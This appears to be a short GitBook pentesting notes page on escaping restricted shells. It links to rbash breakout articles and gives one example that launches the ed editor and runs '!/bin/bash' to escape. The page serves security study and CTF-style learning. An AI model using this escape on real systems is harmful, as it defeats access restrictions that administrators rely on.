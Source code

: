 # 👮♂ Restricted Shell Escapes

## S1REN Breakouts

{% embed url="https://sirensecurity.io/blog/break-out-get-that-tty/" %}

## echo breakout

<figure><img src="../.gitbook/assets/image (3) (1) (1) (2).png" alt=""><figcaption></figcaption></figure>

## Rbash

{% embed url="https://www.hacknos.com/rbash-escape-rbash-restricted-shell-escape/" %}

"ed" Editor Escape

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

### Example

```
cd /home
echo $SHELL
ed
!'/bin/bash'
pwd
```
